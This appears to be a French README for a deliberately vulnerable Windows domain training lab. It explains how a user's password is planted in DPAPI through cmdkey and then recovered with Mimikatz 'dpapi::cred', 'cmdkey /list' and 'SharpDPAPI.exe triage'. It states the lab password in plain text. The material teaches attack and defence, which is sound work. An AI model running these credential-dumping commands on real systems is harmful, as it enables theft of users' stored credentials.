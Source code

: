 # DPAPI - Extraction des credentials de Hera

## Description
Les credentials de Hera sont maintenant stockés dans la DPAPI (Data Protection API) de Windows via la commande `cmdkey`.

## Configuration automatique
Le playbook `windows_dpapi.yml` configure automatiquement :
- Une tâche planifiée qui s'exécute au démarrage sous le compte `PANTHEON\hera`
- Injection du credential via : `cmdkey /add:pantheon.god /user:hera /pass:Qu33n0fG0ds!2025`
- Configuration sur les deux machines Windows : `pantheon-dc01` et `pantheon-enfers`

## Exploitation

### 1. Obtenir l'accès à une session de Hera
Pour extraire les credentials DPAPI, vous devez d'abord obtenir l'accès à une session utilisateur de Hera.

### 2. Dump des credentials DPAPI
Une fois connecté en tant que Hera, vous pouvez utiliser plusieurs méthodes :

#### Méthode 1 : Mimikatz
```powershell
# Lister les credentials stockés
cmdkey /list

# Utiliser Mimikatz pour extraire les credentials DPAPI
mimikatz "dpapi::cred /in:C:\Users\hera\AppData\Roaming\Microsoft\Credentials\<GUID>"
```

#### Méthode 2 : cmdkey natif
```cmd
# Lister les credentials stockés
cmdkey /list

# Les credentials seront visibles mais le mot de passe sera masqué
```

#### Méthode 3 : SharpDPAPI
```powershell
# Utiliser SharpDPAPI pour extraire les credentials
SharpDPAPI.exe triage
```

### 3. Credential trouvé
Après l'extraction DPAPI, vous devriez trouver :
- **Domaine** : `pantheon.god`
- **Utilisateur** : `hera`
- **Mot de passe** : `Qu33n0fG0ds!2025`

## Notes importantes
- Les credentials DPAPI sont spécifiques à l'utilisateur et au profil
- La tâche planifiée s'exécute au démarrage de chaque machine
- Les credentials sont protégés par la DPAPI de Windows et nécessitent les privilèges de l'utilisateur Hera pour être extraits

## Objectif pédagogique
Cette configuration permet d'apprendre :
- L'extraction de credentials depuis la DPAPI
- L'utilisation d'outils comme Mimikatz, SharpDPAPI
- Les faiblesses de stockage des credentials Windows
- Les techniques de post-exploitation 